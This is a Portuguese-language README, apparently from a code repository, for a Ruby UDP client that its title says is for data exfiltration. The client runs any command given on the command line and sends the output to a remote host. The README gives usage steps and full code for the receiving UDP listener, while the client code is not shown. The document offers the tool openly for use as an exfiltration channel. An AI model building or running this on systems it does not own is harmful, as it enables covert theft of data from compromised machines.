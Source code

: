 # Cliente UDP em Ruby para exfiltração de dados

Este é um cliente UDP simples em Ruby que permite enviar o resultado de comandos especificados como parâmetro para um servidor UDP em uma máquina remota.

## Pré-requisitos

Antes de usar este cliente, verifique se você atende aos seguintes requisitos:

- Ruby instalado na sua máquina.
- Permissões para executar comandos no sistema operacional local.

## Uso

Siga estas etapas para usar o cliente UDP em Ruby:

1. Abra um terminal.
2. Navegue até o diretório onde o código Ruby está localizado.

### Comandos Cliente

O cliente espera um comando como argumento na linha de comando. Você pode especificar qualquer comando que você normalmente executaria no terminal. O resultado desse comando será enviado ao servidor UDP.

Para executar o cliente e enviar o resultado de um comando, utilize o seguinte formato:

```bash
ruby udp_client.rb "seu_comando_aqui"
```

Substitua "seu_comando_aqui" pelo comando que você deseja executar. Por exemplo:

```bash
ruby udp_client.rb "ls -l"
```

### Resultado
O cliente UDP enviará o resultado do comando especificado para o servidor UDP remoto, que deve estar em execução no IP e porta configurados nas variáveis target_host e target_port no código Ruby.

O resultado enviado para o servidor será impresso no console após o envio bem-sucedido.

Exemplo de Servidor UDP
Para que este cliente funcione corretamente, você também precisa configurar um servidor UDP para receber os dados enviados. Aqui está um exemplo simples de um servidor UDP em Ruby:

```ruby
require "socket"

IP = "0.0.0.0"
PORT = 4321
bufferSize = 4096

server = UDPSocket.new
server.bind(IP, PORT)

loop do
  bytes_address = server.recvfrom(bufferSize)
  message = bytes_address[0]
  address = bytes_address[1]

  # Faça o processamento necessário com a mensagem recebida, se desejado.
  
  puts "Mensagem recebida de #{address[3]}:#{address[1]}:"
  puts message
end
```
### Inicializaçao do servidor

```bash
ruby udp_server.rb
```

Este é apenas um exemplo básico de um servidor UDP. Você pode personalizá-lo para atender às suas necessidades específicas.

Lembre-se de que é importante que o cliente e o servidor estejam configurados com as mesmas configurações de IP e porta para que a comunicação funcione corretamente. Certifique-se de ajustar essas configurações conforme necessário.
